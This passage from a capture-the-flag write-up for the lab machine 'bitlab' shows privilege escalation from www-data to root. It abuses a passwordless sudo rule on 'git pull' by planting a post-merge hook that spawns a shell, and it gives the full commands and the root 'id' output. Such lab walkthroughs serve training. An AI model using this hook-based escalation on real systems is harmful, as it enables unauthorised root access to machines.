 And we have a low privilege shell.

Now there are two ways to get `root` from here. I will be discussing both methods here.

# Root Shell Method 1 (Using `git pull`)
## Low Priv Shell Enumeration
Lets run `LinEnum.sh` to get see if there are any exploitable methods

```bash
User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull


[+] Possible sudo pwnage!
/usr/bin/git
```
So we can execute `/usr/bin/git pull` without supplying a password.
We can exploit `git hooks` to gain a root shell.  
[Gtfobins git hooks](https://gtfobins.github.io/gtfobins/git/), [Git pull hook](https://git-scm.com/docs/githooks#_post_merge)
## Root Shell
We can exploit `git` using hooks by completing the following steps

1. Copy the `profile` folder from `/var/www/html/` to `/tmp` folder
    ```bash
    $ cp -r /var/www/html/profile /tmp/pro
    ```
2. Create a `post-merge` hook in `/profile/.git/hooks/` with the following content and change permissions 
    ```bash
    #!/bin/bash
    echo pwned
    exec /bin/sh 0<&2 1>&2
    ```
    
    ```bash
    $ (echo '#!/bin/bash';echo 'pwned';echo 'exec /bin/sh 0<&2 1>&2')>post-merge
    $ chmod 777 post-merge
    ```

3. Change the `README.md` file slightly so that the `git pull` command will have some updates to download and after the update it will execute the hook.  
    
    ```bash
    $ sudo /usr/bin/git pull
    sudo /usr/bin/git pull
    remote: Enumerating objects: 6, done.
    remote: Counting objects: 100% (6/6), done.
    remote: Compressing objects: 100% (4/4), done.
    remote: Total 4 (delta 2), reused 0 (delta 0)
    Unpacking objects: 100% (4/4), done.
    From ssh://localhost:3022/root/profile
       6945c1e..ac5e916  master     -> origin/master
     * [new branch]      patch-11   -> origin/patch-11
    Updating 6945c1e..ac5e916
    Fast-forward
     README.md | 3 +--
     1 file changed, 1 insertion(+), 2 deletions(-)
    .git/hooks/post-merge: line 2: pwned: command not found
    # id
    id
    uid=0(root) gid=0(root) groups=0(root)